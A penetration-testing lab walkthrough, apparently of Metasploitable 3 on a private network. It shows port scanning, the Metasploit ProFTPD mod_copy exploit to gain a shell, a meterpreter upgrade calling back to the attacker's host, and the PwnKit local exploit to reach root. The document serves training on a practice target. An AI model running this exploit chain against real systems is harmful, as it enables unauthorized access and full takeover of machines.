










# FTP ENUMERATION

**Rustscan**

```shell
rustscan -a 192.168.43.111 -- -sV -oN meta3_nmap
```

<figure><figcaption></figcaption></figure>

```
Open 192.168.43.111:21
Open 192.168.43.111:22
Open 192.168.43.111:445
Open 192.168.43.111:80
Open 192.168.43.111:631
Open 192.168.43.111:3306
Open 192.168.43.111:3500
Open 192.168.43.111:6697
Open 192.168.43.111:8080

PORT     STATE SERVICE     REASON  VERSION
21/tcp   open  ftp         syn-ack ProFTPD 1.3.5
22/tcp   open  ssh         syn-ack OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        syn-ack Apache httpd 2.4.7 ((Ubuntu))
445/tcp  open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
631/tcp  open  ipp         syn-ack CUPS 1.7
3306/tcp open  mysql       syn-ack MySQL (unauthorized)
3500/tcp open  http        syn-ack WEBrick httpd 1.3.1 (Ruby 2.3.8 (2018-10-18))
6697/tcp open  irc         syn-ack UnrealIRCd
8080/tcp open  http        syn-ack Jetty 8.1.7.v20120910
Service Info: Host: irc.TestIRC.net; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### FTP ENUMERATION (port 21)

We see that FTP has a version of <mark style="background-color:purple;">ProFTPD 1.3.5</mark> , when we search for exploit vulnerability we seen some good news.

```
searchsploit ProFTPD 1.3.5
```

<figure><figcaption></figcaption></figure>

Now we see we have some code being used with metasploit, lets start the service see if we might get access to the server.

```shell
msfconsole
```

And if the service is opened search for the same FTP version you searched earlier and you will see we some exploit.&#x20;

<figure><figcaption></figcaption></figure>

```shell
use exploit/unix/ftp/proftpd_modcpoy_exec
```

```shell
1. setg rhosts 192.168.43.111
2. set sitepath /var/www/html
3. run
```

<figure><figcaption></figcaption></figure>

Even though have a Exploit aborted due to failure message go no check you sessions, you have a session started.&#x20;

<figure><figcaption></figcaption></figure>

Now if you want to get your shell you type ==sessions 1== but if you want to use a meterpreter session you have to upgrade your session

```shell
sessions -u 1
```

Anew meterpreter session will be started and you re set to do what ever you want on the machine&#x20;

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

You type <mark style="background-color:blue;">shell</mark> in your meterpreter to get the shell of the machine but first you need a interactive shell ,

```shell
/bin/bash -i
```

<figure><figcaption></figcaption></figure>

#### #Privilege escalation

After having upgraded our shell to meterpreter we need to find the privilege escalation to this machine. First am going to scan the machine and see if we might have any kernel exploits.

```shell
1. search suggestor
2. use post/multi/recon/local_exploit_suggester
3. set session 2
4. run
```

<figure><figcaption></figcaption></figure>

After our scripts runs, we seen that this machine is vulnerable to 4 attacks. and if one is successful we should get access to a root user.

```shell
1. use exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec
2. setg session 2
3. setg lhost 192.168.43.103
4. setg lport 3333
5. exploit
```

Now we set our session to the second session upgraded to meterpreter which is id 2 and then we our lport(attack's ip address) later we only set a new port, this should not be in use by any application and then run your exploit. A meterpreter session is pwned and by changing to the interactive shell shell we seen we an root user and this can also be confirmed by running ID command which also show you the same.&#x20;

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

